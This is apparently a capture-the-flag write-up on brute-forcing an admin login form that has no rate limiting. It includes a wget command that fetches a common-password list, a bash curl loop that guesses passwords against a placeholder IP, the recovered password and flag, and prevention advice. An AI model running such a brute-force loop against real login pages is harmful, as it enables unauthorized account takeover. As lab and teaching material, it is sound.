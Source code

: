 # Brute Force Authentication Vulnerability

## Overview
The login form at `/?page=signin` is vulnerable to brute force attacks, allowing attackers to guess admin credentials with no rate limiting.

---

## How It Works

1. **Finding the Target:**  
   In a previous breach, we gained access to the members page, which revealed that "admin" is a valid username.
2. **Attack:**  
   Login requests are sent like this:
   ```
   /?page=signin&username=admin&password=<PASSWORD>&Login=Login
   ```
   A failed login shows "WrongAnswer.gif".

---

## Exploitation Methods

### ** Bash Script with Password List**

- Download a password list from GitHub:
  ```bash
  wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt -O pwdlist.txt
  ```
- Use this brute force loop:
  ```bash
  for pwd in $(cat pwdlist.txt); do 
  resp=$(curl -s "http://<IP_ADDRESS>/?page=signin&username=admin&password=$pwd&Login=Login")
  if [[ "$resp" == *"The flag is :"* ]]; then 
    flag=$(echo "$resp" | grep -oP 'The flag is : \K[a-f0-9]{64}')
    echo "Success! Username: admin | Password: $pwd | Flag: $flag"
    break
  fi done
  ```
- Password `shadow` is found to work.


---

## Result

- **Username:** admin  
- **Password:** shadow  
- **Flag:** `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`

---

## Prevention

1. **Account Lockout:** Temporarily disable accounts after multiple failures.
2. **Strong Password Policy:** Require complex, non-common passwords.
3. **MFA:** Add Multi-Factor Authentication for all users.
4. **CAPTCHA:** Use CAPTCHA after failed logins.
5. **Rate Limit:** Restrict login attempts per IP.
6. **Monitoring:** Alert on brute force patterns.

---

## Resources

- Password list source:  
  [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt)
